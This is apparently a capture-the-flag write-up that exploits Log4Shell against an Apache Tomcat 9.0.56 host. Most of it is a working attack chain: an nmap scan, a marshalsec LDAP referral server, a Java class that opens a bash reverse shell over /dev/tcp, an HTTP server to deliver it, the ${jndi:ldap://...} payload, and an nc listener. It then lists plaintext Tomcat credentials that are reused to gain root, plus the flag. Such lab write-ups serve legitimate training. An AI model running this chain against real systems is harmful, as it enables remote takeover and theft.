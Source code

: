 Scan : 

```sh
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c1c1b4297485c9be409852fe7228bb76 (RSA)
|   256 e2bd0b90770c51fc9de4a6da794bdd96 (ECDSA)
|_  256 e8bae65c69921d2ee53f86a4bbfa7de2 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.56
|_http-title: Apache Tomcat/9.0.56
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

- Set Up a Malicious LDAP Server

You can use tools like marshalsec to set up an LDAP server that will return a malicious Java class file.
```
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec
```

- Compile the project:

```sh
mvn clean package -DskipTests
```

Run the LDAP server:

```sh
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://your-server.com:8888/#Exploit"
```

- Create a Malicious Java Class for Reverse Shell

```java

import java.io.IOException;

public class Exploit {
    static {
        try {
            String[] cmd = {"/bin/bash", "-c", "bash -i >& /dev/tcp/your-ip/your-port 0>&1"};
            java.lang.Runtime.getRuntime().exec(cmd);
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```

- Compile this class:

```sh
javac -source 1.8 -target 1.8 Exploit.java
```
- Start a simple HTTP server to serve this class
```sh
python3 -m http.server 8888
```
- Trigger the Vulnerability

Send a payload to the vulnerable application that triggers the LDAP lookup. This payload will point to your malicious LDAP server, which in turn will instruct the application to load the malicious class file from your HTTP server.

- Payload:

```
 ${jndi:ldap://your-server.com:1389/a}
```

- Start a Listener for the Reverse Shell

```sh
nc -lvnp your-port
```

User:
- After the foot hold we grab that file : 
```sh
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <user username="admin" password="H2RR3rGDrbAnPxWa" roles="manager-gui"/>
  <user username="robot" password="H2RR3rGDrbAnPxWa" roles="manager-script"/>

</tomcat-users>
```

- su root  gg you got the flag ;)

Root:VL{25da7f42f4e279698c91c0ce911d51a9}
